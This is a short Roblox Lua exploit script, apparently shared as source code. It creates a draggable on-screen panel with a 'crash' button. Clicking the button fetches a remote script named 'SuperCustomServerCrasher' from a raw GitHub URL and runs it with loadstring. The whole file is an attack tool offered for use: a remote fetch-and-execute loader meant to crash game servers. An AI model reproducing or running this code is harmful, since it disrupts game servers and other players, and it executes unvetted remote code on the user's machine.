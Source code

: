 -- crash
-- made by wezentjuh#9052

local ScreenGui = Instance.new("ScreenGui")
local main = Instance.new("Frame")
local crash = Instance.new("TextButton")

--Properties:

ScreenGui.Parent = game.CoreGui
main.Name = "main"
main.Parent = ScreenGui
main.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
main.Position = UDim2.new(0.85728848, 0, 0.399999976, 0)
main.Size = UDim2.new(0, 140, 0, 42)
main.Active = true
main.Draggable = true

crash.Name = "crash"
crash.Parent = main
crash.BackgroundColor3 = Color3.fromRGB(255, 76, 41)
crash.BorderColor3 = Color3.fromRGB(8, 32, 50)
crash.BorderSizePixel = 2
crash.Position = UDim2.new(-0.014892119, 0, 0, 0)
crash.Size = UDim2.new(0, 134, 0, 41)
crash.Font = Enum.Font.Ubuntu
crash.Text = "crash"
crash.TextColor3 = Color3.fromRGB(255, 255, 255)
crash.TextSize = 35.000
crash.TextStrokeColor3 = Color3.fromRGB(255, 255, 255)
crash.MouseButton1Down:connect (function()
	loadstring(game:HttpGet('https://raw.githubusercontent.com/lerkermer/lua-projects/master/SuperCustomServerCrasher'))()
end)
